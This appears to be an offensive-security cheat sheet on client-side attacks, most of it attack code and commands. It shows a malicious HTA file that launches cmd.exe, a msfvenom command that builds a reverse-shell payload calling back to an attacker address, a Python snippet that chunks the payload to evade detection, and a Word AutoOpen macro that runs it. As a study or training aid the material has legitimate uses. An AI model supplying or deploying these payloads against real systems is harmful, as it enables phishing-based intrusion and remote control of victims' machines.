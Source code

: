 # Client Side Attacks

## Enumeration

* **Passive Enumeration:**
  * Identify the victim's browser.
* **Active Enumeration:**
  * **Social Engineering:**
    * Craft messages or scenarios to manipulate users into revealing sensitive information or performing actions.

## Leveraging HTML Apps

* **Tool:** [**fingerprintjs2**](https://github.com/LukasDrgon/fingerprintjs2)
  * A JavaScript library to uniquely identify a browser based on its features.
* **HTA Attack:**
  * Create an HTA (HTML Application) to execute malicious scripts.
    *   Example HTA file (`file.hta`):

        ```html
        <!DOCTYPE html>
        <html>
        <head>
            <script>
            var x='cmd.exe'
            new ActiveXObject('WScript.shell').Run(x);
            </script>
        </head>
        <body>
            <script> self.close() </script> 
        </body>
        </html>
        ```
    *   Copy the HTA file to a web server:

        ```bash
        sudo cp file.hta /var/www/html/file2.hta
        ```
    *   Generate an HTA payload with msfvenom:

        ```bash
        sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.114.134 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
        ```

## Exploiting Microsoft Office

* **Word Macro:**
  *   Split the payload to evade detection.

      ```python
      str="" # payload from msfvenom
      n=50
      for i in range(0,len(str),n):
          print "str = Str +" + '"' + str[i:i+n] + '"'
      ```
  *   Add the split payload to a Word Macro (`document.docm`).

      ```vba
      Sub AutoOpen()
          test1
      End Sub

      Sub Doc_Open()
          test1
      End Sub

      Sub test1()
          Dim Str As String
          ' Add the splitted payload here
          CreateObject("Wscript.shell").Run Str
      End Sub
      ```
* **Object Linking and Embedding (OLE):**
  * Create an evil batch file (`evil.bat`).
  * Create a link object in the Word document (`document.docm`).

#### Resources:

* [fingerprintjs2 GitHub Repository](https://github.com/LukasDrgon/fingerprintjs2)
* [Metasploit Framework (msfvenom)](https://www.metasploitunleashed.com/msfvenom/)
* [Microsoft VBA Programming](https://docs.microsoft.com/en-us/office/vba/api/overview/)
